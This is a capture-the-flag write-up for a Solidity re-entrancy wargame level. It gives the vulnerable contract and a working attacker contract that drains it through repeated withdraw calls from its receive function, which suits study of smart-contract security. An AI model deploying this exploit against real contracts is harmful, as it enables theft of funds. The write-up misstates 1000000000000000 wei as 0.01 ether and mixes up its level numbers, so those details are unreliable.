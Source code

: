 # Level 1 - Re-entrancy

### Objective

The objective of this level is as follows:

1. Steal all the funds from the contract.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

### Solution

In this level, we will perform a re-entrancy attack.

First, we identify the value of funds in the contract:

```
await getBalance(instance)

```

Next, let us implement the following contract in Remix:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface level_10 {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    level_10 targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = level_10(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

We deploy `ReentranceAttack` with the level 10 contract address.

Next, we call `donateAndWithdraw` with `1000000000000000` wei (`0.01` ether).

Finally, lets check the value of the contract to ensure that it is zero:

```
await getBalance(instance)

```

Done!
